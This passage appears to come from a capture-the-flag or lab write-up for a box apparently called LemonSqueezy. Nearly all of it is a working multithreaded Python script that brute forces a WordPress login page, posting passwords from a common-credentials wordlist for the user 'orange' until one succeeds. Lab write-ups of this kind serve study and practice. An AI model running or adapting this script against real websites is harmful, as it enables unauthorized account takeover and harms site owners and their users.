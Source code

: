 I developed a python script to brute force the login page.

```python
#!/usr/bin/env python3

import requests
import os
import threading
from queue import Queue
from colorama import init,Fore

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

url="http://lemonsqueezy/wordpress/wp-login.php"
user="orange"
print_lock=threading.Lock()

def bflogin(passwd):
    data={
            'log':user,
            'pwd':passwd,
            'wp-submit':'Log+In'
            }

    r=requests.post(url,data=data)

    if 'ERROR' not in r.text:
        with print_lock:
            print(f"{green}[+] Found: {passwd:20}{reset}")
            os._exit(1)
    else:
        with print_lock:
            print(f"{gray}[-] Password {passwd:15}{reset}", end='\r')

def threader():
    while True:
        worker=q.get()
        bflogin(worker)
        q.task_done()

q=Queue()

for x in range(10):
    t=threading.Thread(target=threader)
    t.daemon=True
    t.start()

wordlist=open("/opt/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt").read().splitlines()

for p in wordlist:
    q.put(p)

q.join()
```
